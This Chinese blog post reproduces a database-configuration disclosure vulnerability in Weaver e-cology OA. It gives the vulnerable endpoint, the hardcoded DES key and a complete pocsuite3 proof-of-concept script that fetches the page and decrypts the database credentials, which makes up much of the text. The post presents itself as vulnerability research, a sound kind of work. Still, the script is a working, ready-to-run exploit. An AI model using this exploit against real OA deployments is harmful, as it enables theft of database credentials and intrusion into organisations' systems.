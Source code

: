 ```yaml
---
title:  泛微ecology OA数据库配置信息泄露漏洞复现
date: 2019-10-28 09:31:52
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - 泛微e-cology OA
    - 漏洞复现
    - info_disclosure
---
```

# 0x00 漏洞概述

泛微ecology OA系统接口存在数据库配置信息泄露漏洞,
攻击者可通过该漏洞页面直接获取到数据库配置信息，
攻击者可通过访问存在漏洞的页面并解密从而获取数据库配置信息

# 0x01 影响版本

**漏洞涉及范围包括不限于8.0、9.0版**

# 0x02 漏洞复现
## 环境搭建

附上 **ecology8.1安装包+安装教程**
百度链接：[https://pan.baidu.com/s/1ciU0clOlqV3iDqQ6Ic2RAA](https://pan.baidu.com/s/1ciU0clOlqV3iDqQ6Ic2RAA)
提取码: 3xh9 

## 漏洞利用

直接访问存在漏洞路径，
结果为DES加密以后的乱码

`url+/mobile/DBconfigReader.jsp`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191104142320.png)


查看返回的数据，发现存在一些`\r\n`，需要去掉`\r\n`，
可以选择切片取出数据，也可以使用repalce替换
再使用DES算法结合密钥进行解密之后，
即可获得数据库相关信息，密钥为`1z2x3c4v`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191104142755.png)

## POC

```
#! python3
"""

@FileName: e_cology_oa_info_disclosure.py.py
@Author: dylan
@software: PyCharm 
@Datetime: 2019-10-28 10:30

"""
import base64
import urllib.parse
from pocsuite3.api import Output, POCBase, register_poc, requests, logger
from pyDes import *


class DemoPOC(POCBase):
    vulID = ""  # ssvid ID 如果是提交漏洞的同时提交 PoC,则写成 0
    version = "3.0"  # 默认为1
    author = "dylan"  # PoC作者的大名
    vulDate = "2019/10/29"  # 漏洞公开的时间,不知道就写今天
    createDate = "2019/10/29"  # 编写 PoC 的日期
    updateDate = "2019/10/29"  # PoC 更新的时间,默认和编写时间一样
    references = [""]  # 漏洞地址来源,0day不用写
    name = "e_cology_oa_info_disclosure"  # PoC 名称
    appPowerLink = ""  # 漏洞厂商主页地址
    appName = "e_cology_oa"  # 漏洞应用名称
    appVersion = ""  # 漏洞影响版本
    vulType = "info_disclosure"  # 漏洞类型,类型参考见 漏洞类型规范表
    desc = """
        
    """  # 漏洞简要描述
    samples = [""]  # 测试样列,就是用 PoC 测试成功的网站
    install_requires = []  # PoC 第三方模块依赖，请尽量不要使用第三方模块，必要时请参考《PoC第三方模块依赖说明》填写
    pocDesc = """
    
    """

    def _verify(self):
        # 验证代码
        result = {}
        headers = {
            'User-Agent': "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; AcooBrowser; .NET CLR 1.1.4322; "
                          ".NET CLR 2.0.50727)",
        }
        path = self.url + "/mobile/DBconfigReader.jsp"
        respose = requests.get(path, headers=headers, verify=False, timeout=30).content.replace(b'\r\n', b'')
        # print(respose)
        respose = str(des('1z2x3c4v').decrypt(respose))
        # print(respose)
        if "user" in respose:  # result是返回结果
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = path
            result['DBInfo'] = respose
        return self.parse_output(result)

    def _attack(self):
        # 攻击代码
        return self._verify()

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail("Internet nothing returned")
        return output


# 注册 DemoPOC 类
register_poc(DemoPOC)
```

# 参考文章

[泛微 e-cology OA 数据库配置信息泄露漏洞复现](https://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247483918&idx=1&sn=9319c04f7d7dad68f224b24ceb46e05e)
[DBconfigReader: 泛微ecology OA系统接口存在数据库配置信息泄露漏洞](https://github.com/jas502n/DBconfigReader)